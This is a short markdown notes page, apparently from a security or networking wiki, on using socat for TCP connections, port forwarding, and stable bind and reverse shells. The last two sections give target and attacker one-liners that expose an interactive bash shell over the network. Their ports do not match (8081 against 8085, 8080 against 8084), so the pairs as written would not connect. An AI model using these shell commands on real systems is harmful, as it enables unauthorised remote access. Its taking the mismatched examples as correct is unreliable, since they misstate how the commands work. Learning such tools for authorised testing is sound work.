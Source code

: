 # Socat

**Socat** is an all-purpose networking tool. To open a [TCP](./protocols/tcp)
connection run

```sh
socat - tcp:localhost:8080
```

The `-` indicates that standard IO should be streamed over the connection.

## Port forwarding

Socat can do port forwarding such as

```sh
socat tcp-listen:8081,fork,reuseaddr tcp:localhost:8080
```

## Bind shell

You can create stable bind shells with socat using

```sh
Target > socat tcp-listen:8081 exec:"bash -li",pty,stderr,sigint,setsid,sane
Attacker > socat file:`tty`,raw,echo=0 tcp:localhost:8085
```

## Reverse shell

Socat can be used to obtain stable reverse shells using

```sh
Attacker > socat file:`tty`,raw,echo=0 tcp-listen:8080
Target > socat exec:"bash -li",pty,stderr,sigint,setsid,sane tcp:localhost:8084
```
